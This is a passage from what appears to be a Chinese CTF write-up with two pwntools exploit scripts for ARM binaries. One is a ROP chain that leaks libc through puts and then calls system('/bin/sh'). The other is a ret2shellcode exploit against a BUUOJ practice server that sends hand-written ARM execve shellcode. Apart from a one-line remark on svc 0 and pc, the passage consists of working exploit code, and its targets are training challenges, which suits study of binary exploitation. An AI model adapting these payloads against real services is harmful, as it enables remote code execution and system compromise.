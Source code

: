 ```
 
if __name__ == '__main__':
    check(233, 233)
    PT(-1)
    pop_r0_pc = 0x11bbc
    payload = b'a'*0x54 + p32(pop_r0_pc) + p32(elf.got['puts']) + p32(elf.plt['puts']) + p32(0)*3 + p32(elf.sym['main'])
    # payload = b'a'*0x54 + p32(pop_r0_pc) + p32(elf.got['puts']) + p32(elf.plt['puts']) + p32(0)*5 + p32(elf.sym['main'])
    write_diary(payload)
    quit()
 
    io.recvuntil("See you again :)\n")
    libc.address = u32(io.recv(4)) - libc.sym['puts']
    success("libc_base:\t" + hex(libc.address))
 
    check(233, 233)
    PT(-1)
    payload = b'a'*0x54 + p32(pop_r0_pc) + p32(next(libc.search(b'/bin/sh'))) + p32(libc.sym['system'])
    write_diary(payload)
    quit()
    io.interactive()

```

### Root Me : stack_buffer_overflow_basic

一个`ret2shellcode`...

 

我都是手撸`shellcode`，这里`svc 0`相当于`int 0x80 / syscall`，在程序运行中，`pc`寄存器指向当前指令后两条指令的位置。

```
from pwn import *
context(os = 'linux', arch = 'arm', log_level = 'debug')
 
#io = process("qemu-arm -L ./ ./pwn", shell = True)
io = remote("node4.buuoj.cn", 26999)
 
io.sendlineafter("Give me data to dump:\n", b'leak')
shellcode_addr = int(io.recv(10), 16)
success("shellcode_addr:\t" + hex(shellcode_addr))
 
io.sendlineafter("Dump again (y/n):\n", b'y')
 
shellcode = asm('''
    eor r1, r1
    eor r2, r2
    mov r7, #11
    mov r0, pc
    svc 0
    .ascii "/bin/sh\\0"
''')
payload = shellcode.ljust(0xa4, b'\x00') + p32(shellcode_addr)
io.sendlineafter("Give me data to dump:\n", payload)
 
io.sendlineafter("Dump again (y/n):\n", b'n')
io.interactive()

```
